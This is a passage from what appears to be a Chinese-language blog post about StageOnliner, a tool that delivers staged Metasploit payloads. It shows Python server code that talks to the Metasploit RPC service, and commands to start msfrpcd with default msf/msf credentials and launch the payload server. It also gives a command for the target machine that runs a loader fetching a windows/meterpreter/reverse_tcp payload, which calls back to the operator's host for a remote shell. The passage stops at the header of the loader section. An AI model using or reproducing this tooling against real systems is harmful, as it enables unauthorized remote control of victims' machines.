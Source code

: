```
    args.add_argument('-H','--host',help='Metasploit web service host, Default: localhost',default='localhost')
    args.add_argument('-p','--port',help='Metasploit RPC service port, Default: 55553',default=55553,type=int)
    args.add_argument('-S','--server',help='Payload sender listen host, Default: localhost',default='localhost')
    args.add_argument('-l','--listen',help='Payload listen port, Default: 1111',default=1111,type=int)
    args.add_argument('-u','--uri',help='Metasploit RPC service uri, Default: /api/1.0/',default='/api/1.0/')
    args.add_argument('-t','--type',help='Payload Type',choices=('exe','ruby','c','dll','vbs','powershell'))
    args.add_argument('-s','--ssl',help='Enable ssl, Default: True',action="store_true",default=True)
    args.add_argument('-v','--versobe',help='Enable debug',action="store_true")
    parser = args.parse_args()
    term.writeLine("[*]Server Host : {host} , Server Port : {port}".format(host=parser.server,port=parser.listen), term.green)
    server = ThreadingTCPServer((parser.server,parser.listen),Metasploit_RPC.Creator(parser))
    server.serve_forever()
    
if __name__ == "__main__":
    main()
```


启动Server之前，需要启动msfrpcd：

```
rvn0xsy ~> /opt/metasploit-framework/bin/msfrpcd -U msf -P msf -u /api/1.0/
[*] MSGRPC starting on 0.0.0.0:55553 (SSL):Msg...
[*] URI: /api/1.0/
[*] MSGRPC backgrounding at 2019-09-14 18:41:14 +0800...
[*] MSGRPC background PID 50486
```

启动Server：

```
python3 server.py -U msf -P msf -H 127.0.0.1 -p 55553 -s -v -l 4474 -S 192.168.117.1
```

在目标机器上运行：

```
C:\windows\system32\cmd.exe /c C:\www\StageOnliner-x86.exe -p windows/meterpreter/reverse_tcp -s LHOST=1
92.168.117.1,LPORT=1122 -H 192.168.117.1 -P 4474
```

然后在metasploit中开启一个handler，监听windows/meterpreter/reverse_tcp即可上线。


## StageOnliner - Loader

这块要单独挑出来说，因为它需要落地，涉及到一些API的使用：
